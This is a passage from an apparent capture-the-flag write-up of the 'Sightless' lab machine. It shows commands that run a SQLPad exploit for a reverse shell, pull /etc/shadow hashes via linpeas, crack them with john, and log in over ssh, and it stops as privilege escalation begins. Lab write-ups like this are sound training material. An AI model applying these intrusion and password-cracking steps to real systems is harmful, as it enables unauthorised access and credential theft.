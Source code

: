Exploiting the vulnerability, we got a reverse shell executing the command below:   

```bash
python3 exploit-sqlpad.py http://sqlpad.sightless.htb/ 10.10.X.X 9999
```
{: .nolineno }

We landed as `root` as shown below, inside a docker container. We then  uploaded and ran `linpeas.sh`, which will give us a lot of information about the machine and eventually lateral and horizontal privilege escalation attack vectors.

![short-gif](/Assets/Pictures/Sightless/sightless-foothold.GIF)

Looking at the result of `linpeas.sh`, we saw some hashes from the `/etc/shadow` file of both users `michael` & the current `root` user. As shown below:

![hashes](/Assets/Pictures/Sightless/hashes.png)

Cracking this hash using `john`, revealed the password of `michael`. 

```bash
john -w=/usr/share/wordlists/rockyou.txt hashes.txt
```
{: .nolineno }

Using that set of credentials, we access the sightless machine via `ssh`:

```bash
ssh michael@sightless.htb
```
{: .nolineno }

The flag was found under the home directory of the user `michael`. With this flag and access, the only thing left to do was to look for an attack vector to escalate our privileges to `root`.

## Privilege Escalation
Started enumerating `sightless`, looking at the listening ports. We found the following ports open:

